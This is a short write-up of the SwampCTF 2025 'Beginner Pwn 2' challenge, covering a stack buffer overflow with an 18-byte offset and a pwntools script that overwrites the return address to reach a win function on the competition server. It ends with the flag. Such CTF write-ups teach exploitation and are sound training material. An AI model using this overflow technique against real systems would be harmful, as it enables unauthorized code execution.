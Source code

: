```yaml
---
layout: post
title: "SwampCTF 2025: Beginner Pwn 2"
author: yoshixi
tags: [writeup, pwn]
---
```



author: @yoshixi
solved with: @bentley
## **Challenge Info:**
##### Category: Pwn
![beginnerpwn2](https://digitalyoshixi.github.io/ctfs/swampctf2025/beginnerpwn.webp)

[Download](https://ctf.swampctf.com/files/ba73e4e10e45fd89e46dfc3842c14cbd/binary?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6MjZ9.Z-oS_g.KjaTKth3XM4R_StKJgNkf2RbHQ8)

## Solution
We take a look at `checksec`

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/checksec.webp)

This is good. We have no PIE and no canary. Straightforwards

Now, we try to find the return address

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/retaddr.webp)

Turns out the buffer size is 18, so anything afterwards is now the return statement.

We get the correct script as:

```
import pwn

r = pwn.remote("chals.swampctf.com", 40001)
win_addr = 0x401186

payload = b"A" * 18
payload += pwn.p64(win_addr)
r.sendline(payload)
print(r.recvall().decode('latin-1'))  # Print flag
r.close()
```

## Flag is: `swampCTF{1t5_t1m3_t0_r3turn!!}`